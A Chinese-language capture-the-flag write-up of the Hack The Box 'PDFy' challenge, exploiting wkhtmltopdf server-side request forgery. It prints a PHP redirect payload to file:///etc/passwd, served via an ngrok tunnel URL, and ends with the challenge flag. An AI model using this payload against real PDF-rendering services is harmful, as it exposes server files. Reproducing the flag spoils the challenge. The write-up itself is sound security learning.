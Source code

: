 # [easy] PDFy   
 --- 
[Hack The Box](https://app.hackthebox.com/challenges/PDFy)    
 --- 
一開始先嘗試了幾個url   
- [https://google.com](https://google.com) → 成功   
- machine URL→ 沒東西   
- 隨便一個網站的URL → 成功   
![image.png](files\image_a.png)    
   
Google `WKHTMLTOPDF vulnerability` 和 `WKHTMLTOPDF 漏洞` 找到以下三個有幫助的文章   
![image.png](files\image_4.png)    
[wkhtmltopdf File Inclusion Vulnerability - Virtue Security](https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/)    
[wkhtmltopdf SSRF \| Exploit Notes](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/)    
[](https://zeroday.hitcon.org/vulnerability/ZD-2021-00781)    
   
這一步卡很久，因為我到後來才發現如果要insert PHP code，檔案要存為php檔而不是html XD   
```
<!DOCTYPE html>
<html>
	<head>
		<?php header('location:file:///etc/passwd') ?>
	</head>
	<body>
	</body>
</html>
```
我一直沒辦法注入php code，後來才發現是檔案類型錯誤，code變成comment了   
![image.png](files\image_i.png)    
   
再來就是把local run起來的server，透過ngrok讓外網可以連上   
這裡的tips是用tcp protocol而不是http，在討論區看到有人提示用tcp就不會像http一樣被redirect干擾   
![image.png](files\image_y.png)    
   
用http protocol之後直接搜尋URL，會發現因為有一個redirect頁面，所以web轉pdf的時候php code不會被觸發   
![image.png](files\image.png)    
![image.png](files\image_q.png)    
   
Ngrok轉接好之後，直接在machine上面的搜尋欄位查詢我們架好的php網站就可以了   
`http://0.tcp.jp.ngrok.io:15455/test.php`    
![image.png](files\image_v.png)    
```
# FLAG
HTB{pdF_g3n3r4t1on_g03s_brrr!}
```
   
